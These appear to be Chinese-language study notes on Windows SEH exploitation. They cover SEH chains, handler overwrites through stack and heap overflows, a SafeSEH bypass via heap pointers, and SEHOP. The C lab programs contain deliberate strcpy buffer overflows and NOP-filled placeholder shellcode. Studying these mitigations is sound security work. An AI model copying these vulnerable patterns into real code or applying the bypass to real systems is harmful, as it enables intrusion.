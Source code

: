 SEHAttack

一．SEH
S.E.H即异常处理结构（Structure Exception Handler）,它是Windows异常处理机制所用的重要数据结构，每个SEH包含两个DWORD指针

DWORD:Next SEH(下一个SEH指针)
DWORD:Exception Handler(异常处理函数)

(1)SEH结构体存放在系统栈中
(2)当线程初始化时，系统会自动向栈中安装一个SEH，作为线程默认的异常处理
(3)如果程序源代码使用了__try{} __except(){}或者__Assert宏等异常处理机制，编译器会向当前函数栈中安装一个SEH
(4)栈中存在多个SEH，通过链表从栈底(高地址)指向栈顶(低地址),当异常出现时，会找最近的SEH处理,当处理失败时，将顺着SEH链表依次尝试其他的异常处理函数，如果都不适合，将调用系统默认的处理函数

二．在栈溢出中使用SEH



char shellcode[]="\x90\x90\x90\x90"
				 "\x90\x90\x90\x90"
				 "\x90\x90\x90\x90";
DWORD MyException(void){
	printf("error !!!exit the process...");
	getchar();
	ExitProcess(1);
}

void test(char *input){
	char buf[20];
	int zero=0;
	__asm int 3
	__try{
		strcpy(buf,input);
		zero=4/zero;
	}
	__except (MyException()){}

}

main(){
	
	test(shellcode);

}








SEH链


strcpy



zero=4/zero



当shellcode溢出时



zero=4/zero;



三．在堆溢出利用SEH
即利用DWORD SHOOT修改SEH handler

四．SafeSEH--------针对SEH保护校验
safeSEH处理机制:
(1)检查异常处理函数链是否位于当前程序的栈中，如果不在当前栈中，程序将终止异常处理函数的调用
(2)检查异常处理函数的指针是否指向当前的程序栈中，如果指向当前栈中，程序将终止异常处理函数的调用
(3)在前面两项检查都通过后，程序调用一个全新的函数RtLIsValidHandler()校验函数

（查看sefeSEH.xlsx）

五．从堆中绕过safeSEH
如果SEH中的异常函数指针指向堆区，即使安全校验发现了SEH已经不可信，仍能会调用其已被修改的异常处理函数
启用safeSEH（dumpbin /loadconfig a.exe[release版]）

未启用safeSEH



char shellcode[]=
"\x90\x90\x90\x90"
"\x90\x90\x90\x90"
"\x90\x90\x90\x90"
"\x90\x90\x90\x90"
"\x90\x90\x90\x90"
"\x90\x90\x90\x90"
"\x90\x90\x90\x90"
"\x90\x90\x90\x90"
"\x90\x90\x90\x90"
"\x60\x2A\x39"
;
int MyException(void){
	printf("error !!!exit the process...");
	getchar();
	exit(1);
}

void test(char * input)
{
	
	char str[20];
	int zero=0;
	strcpy(str,input);	
	__try{
	zero=1/zero;
	}
	__except(MyException()){}
}

void main()
{
	char * buf=(char *)malloc(100);
	__asm int 3
	strcpy(buf,shellcode);
	test(shellcode);	
}


char * buf=(char *)malloc(100);
strcpy(buf,shellcode);


12FE8C ---> shellcode:417130
12FE88 ---> buf:392A60





char str[20];
strcpy(str,input);	

12FE78 --> SEHhandler:392A60(buf)



六.SEHOP(Structured Exception Handling 0verwrite Procection)
这是一种比safeSEH更为严厉的保护机制，SEFOP的核心任务就是检查SEH链的完整性，在程序转入异常处理前SEHOP会检验SEH链上最后一个异常处理函数是否为系统固定的终极异常处理函数，之后在进行safeSEH检验，通常伪造SEH链来欺骗SEHOP



